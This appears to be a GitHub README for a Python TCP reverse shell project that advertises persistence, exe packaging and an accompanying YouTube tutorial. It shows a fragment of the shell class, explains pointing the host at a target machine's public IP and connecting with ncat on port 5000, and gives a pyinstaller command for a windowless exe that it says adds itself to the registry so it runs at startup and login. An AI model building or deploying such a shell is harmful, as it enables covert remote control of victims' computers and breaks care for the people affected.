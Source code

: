 # Python-TCP-Reverse-Shell
Python TCP reverse shell &amp; persistence &amp; exe &amp; more! (Also with YouTube  tuturial)

## YouTube Tutorial
https://www.youtube.com/watch?v=S2vXQ27O944&t=

To run this over the internet you change the HOST to the public ip of the target machine. To do this we can use the CommonData class and the public_ip method. 

```
class reverseShell:
    # Class variables
    d = CommonData() <--- HERE we create object of the CommonData() class
    HOST = d.public_ip <--- HERE we use the method public_ip and use the IP(target machines IP) that is returned for the host
    PORT = 5000
    BUFF_SIZE = 2048
........
........
........
```

and then you use ncat with target machine ip and the port 5000 (or whatever you change it to in the script).

Persistence is gainged when creating an exe using pyinstaller like 
```
pyinstaller -w --onefile revShell_server.py
```
It will add the exe to the registry and will start up on machine startup and user login.

This is part 1 atm and I will build on it more in the future and create a tutorial to go with it for anyone that is interested.
